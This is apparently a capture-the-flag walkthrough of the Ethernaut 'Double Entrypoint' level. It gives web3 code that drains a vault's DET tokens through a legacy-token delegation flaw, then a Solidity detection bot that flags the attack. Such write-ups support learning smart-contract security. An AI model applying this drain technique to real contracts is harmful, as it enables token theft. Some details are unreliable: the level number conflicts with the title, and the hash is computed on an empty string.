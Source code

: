 # Ethernaut Level 27 (Double Entrypoint) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 28. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The exploit arises from the LegacyToken.transfer() function essentially transferring DET tokens instead of LGT tokens. The lesson here is to minimise cross contract calls, and add a battery of checks in contracts to prevent contracts/ functions from having excessive authority. In addition, logic should be made less atomic; this increases attack time and reduces changes of a successful attack. Let's start with our hack.

1.  See what contract we have in the contract object in the JS terminal. `contract.abi` will give us the ABI; we can see that we have an instance of the DET Token contract. Now, to drain the CryptoVault contract of its DET balance, we need to call the `cryptoVault.sweepToken()` function, passing it the address of the LegacyToken (LGT), which will in turn call DET.delegateTransfer() thereby draining the DET balance of cryptoVault, which will be the originalSender for the call.
    
2.  Get the cryptoVault address: `let cryptoVault = await contract.ctryptoVault()` and the LGT address `let legacyToken = await contract.delegatedFrom()`, since these two variables inside DET hold these addresses.
    
3.  Finally, we call \`cryptoVault.sweepToken()\`\`, passing it the address of the legacy token. First, we construct the function call:
    

```
let callStr = web3.eth.abi.encodeFunctionCall({
    name: 'sweepToken',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'token'
    }]
}, [legacyToken]);
```

Then, we send the transaction:

`await web3.eth.sendTransaction({from: player, to: cryptoVault, data: callStr})`

We just drained the underlying token (DET) from cryptoVault.

The second step is to write a bot contract that sends an alert when the origSender inside the `delegateTransfer()` function is the `CryptoVault` contract. For this, we must also first familiarize outselves with the calldata layout. This is because our bot would need to extract the address from the function calldata.

#### Calldata

Let us look at the any of calldata.

1.  The first 4 bytes constitute the function selector, i.e., the first four bytes of the Keccak-256 hash of the function signature.
2.  Starting from the fifth byte, encoded arguments follow.

The function we want to monitor is `function delegateTransfer( address to, uint256 value, address origSender ) public override onlyDelegateFrom fortaNotify returns (bool)`. Its signature is `delegateTransfer(address,uint256,address)`.

Lets calculate the keccak256 hash of this signature.

`web3.eth.utils.keccak256("")`

whis turns out to be `0x9cd1a1211670344edaaf7bd8870bf83bfb7b31a93c51b25e35de130796af11ee`

Extract the first 4 bytes. In Hexadecimal notation, 2 characters represent 1 byte. Thus, `9cd1a121`. In the call data, these will be the first 4 bytes. The arguments are encoded and placed in the calldata in 32 byte words, with zeros being padded to the left if needed.

Our calldata will thus looklike:

`4-bytes-selector+32bytes-address+32bytes-uint+32bytes-address`
(addresses are 20 bytes, with left-padded 0s). In total, 100 bytes (0x64 in hex). Since we are interested in only the third argument (origSender), we only need to extract and decode that from the call data.

Inside a function, we refer to the calldata as `msg.data`, which gives us the entirety of the calldata in bytes. We are only interested in the last 32 bytes.

With this knowledge, we can implement our detection bot. We know that it needs to adhere to the given interface:

```
interface IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external;
}
```

The fortaNotify modifier calls the bot's notification function passing it the player address, and the msg.data of the call to `delegatedCall()`.

`forta.notify(player, msg.data);`

Let's implement the bot contract now. One thing to note is that `abi.decode` takes 2 args, the first is the starting offset, the second is a tuple of the decode destination types. We want to use this function to decode our calldata, starting from right after the function selector (so the 5th byte), uptill the end, with the destination types being `addres, uint, address`, in that order. The following line does this:

`(,,address origSender) = abi.decode(msgData[4:], (address, uint256, address));`

We are destructuring the tuple of decoded values, ignoring the first two values, and assigning the third to the variable `adddres origSender`. `msgData[4:]` returns all the items of the byte arra msgData, starting from the 5th index(or starting right after the fourth index).

```
pragma solidity ^0.8.0;

interface IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external;
}

interface IForta {
    function raiseAlert(address user) external;
}

contract MyDetectionBot is IDetectionBot {
// handleTransaction is called by Forta.notify(player, msg.data)
address public origSender;
address public cryptoVault;
    function handleTransaction(address user, bytes calldata msgData) override external {
    // see the explanatory note preceding this code block to understand this like
        (,,origSender) = abi.decode(msgData[4:], (address, uint256, address));
        // If the origSender is cryptoVault contract
        if (origSender == address(cryptoVault))  {
        // call Forta.raiseAlert()
            IForta(msg.sender).raiseAlert(user);
        }
    }

    function setVault(address vault) public {
        cryptoVault = vault;
    }
}
```

Finally, we call Forta.setDetectionBot(botAddress) to register our bot in the Forta contract.

- Fetch Forta contract address: `let forta = await contract.forta()`.
- construct the funciton call to set the bot:

```
let callStr = web3.eth.abi.encodeFunctionCall({
    name: 'setDetectionBot',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'detectionBotAddress'
    }],
}, [botAddress]);
```

- Send the tx: `await web3.eth.sendTransaction({from: player, to: await contract.forta(), data: callStr})`

The alert chronology is thus:

delegatedCall()->Forta.notify(player,calldata)->handleTransaction()->Forta.raiseAlert(player).

Thus, Forta alerts that the user who send this tx, might be an exploiter.

**Note that in order to pass this level, you must only deploy the bot, register/set it in the forta contract, and then click submit.**